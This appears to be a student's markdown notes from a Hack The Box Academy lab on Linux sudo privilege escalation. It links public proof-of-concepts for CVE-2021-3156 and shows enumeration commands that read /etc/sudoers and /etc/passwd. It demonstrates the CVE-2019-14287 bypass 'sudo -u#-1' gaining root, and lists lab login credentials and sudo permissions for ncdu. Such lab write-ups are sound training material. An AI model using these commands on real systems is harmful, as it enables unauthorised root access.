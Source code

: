 # SUDO

- The latest sudo vulnerability is [CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)
- Here is a [Proof-of-Concept](https://github.com/blasty/CVE-2021-3156)

The following will list which users and/or groups are allowed to run which programs with what privileges
``` python
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

Determine sudo version
``` python
sudo -V | head -n1
```

Determine OS Version
```python
cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

## Sudo Policy Bypass

[CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) This sudo vulnerability affects all versions below 1.8.28 .

The only pre-req for this exploit is the user having to be in the /etc/sudoers file. 

Sudo also allows commands to be executed with a users ID. The users ID can be found in the /etc/passwd file like so. The ID being ==1005==
```python
cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

If a negative ID is entered as sudo, this will default to 0, the root user
```python
sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

# Questions

Username
```python
htb-student
```

Password
```python
HTB_@cademy_stdnt!
```

IP
```python
10.129.205.110
```

Hostname
```python
ACADEMY-LLPE-SUDO
```

SSH
```python
ssh htb-student@ACADEMY-LLPE-SUDO
```
## Enumeration

Enumerating sudo version. This isn't one of the versions affected by CVE-2021-3156
```bash
$ sudo -V | head -n1
Sudo version 1.8.21p2
```

Verify sudo permissions. The user has the capability to execute the ncdu binary with sudo permissions
```bash
$ sudo -l
[sudo] password for htb-student: 
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
```


